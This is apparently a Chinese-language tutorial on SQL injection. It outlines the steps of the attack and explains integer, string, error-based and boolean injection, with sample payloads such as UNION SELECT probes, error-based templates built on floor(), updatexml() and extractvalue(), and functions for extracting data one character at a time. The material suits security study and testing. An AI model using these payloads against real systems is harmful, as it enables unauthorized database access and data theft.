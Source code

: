 ```shell
判断是什么类型注入，有没有过滤关键字，是否能绕过
确定存在注入的表的列数以及表中数据那些字段可以显示出来
获取数据库版本，用户，当前连接的数据库等信息
获取数据库中所有表的信息
获取某个表的列字段信息
获取相应表的数据
```

### 注入类型

SQL注入分为很多种，有联合注入、布尔注入、报错注入、时间注入、堆叠注入、二次注入、宽字节注入、cookie注入等等，这些注入所产生的的原理都是一样的。

#### 整数型注入

整数型注入就是输入的数据两边没有用引号或其他符号包起来，可以直接在输入的数据后面进行SQL语句的拼接,语句的最后不需要用 `# ` 或者 `--+`注释。

> 例如：
>
> 1  order by 3、1 union select 1,2,3

#### 字符型注入

字符型注入要考虑到引号闭合和注释

> 例如：
>
> 1' order by 3 # 或者 1' union select 1,2,3 #

#### 报错注入

+ 原理：构造 payload 让信息通过错误提示回显出来。

  

+ 平时我们最常用到的三种报错注入方式分别是：floor()、updatexml()、extractvalue()。

~~~sql
1. select count(*) ,concat((此处加入执行语句),0x7e,floor (rand (0)*2))  as a from information _schema.tables group by a;
2. extractvalue(1,concat(0x7e,(此处加入执行语句),0x7e));
3. select updatexml(1,concat(0x7e,(此处加入执行语句),0x7e),1);
~~~

[详细解释]([SQL 注入 报错注入 - Keefe's Blog | 每天都要热爱技术 -- 网络安全技术博客 (aiyuanzhen.com)](http://aiyuanzhen.com/index.php/archives/34/))

#### 布尔注入

+ 特点：当页面存在注入，但是没有显示位，且没有用echo "mysql_error()"输出错误信息时可以用， 它一次只能猜测一个字节，速度慢，但是只要存在注入就能用
+ 利用方式：用and连接前后语句：`www.xxx.com/aa.php?id=1` and (注入语句) --+ 根据返回页面是否相同来得到数据
+ 布尔注入常用函数

~~~sql
length(str)：返回str字符串的长度。
substr(str, pos, len)：将str从pos位置开始截取len长度的字符进 行返回。注意这里的pos位置是从1开始的，不是数组的0开始
mid(str,pos,len):跟上面的一样，截取字符串
ascii(str)：返回字符串str的最左面字符的ASCII代码值。
ord(str):同上，返回ascii码
if(a,b,c) :a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0
~~~
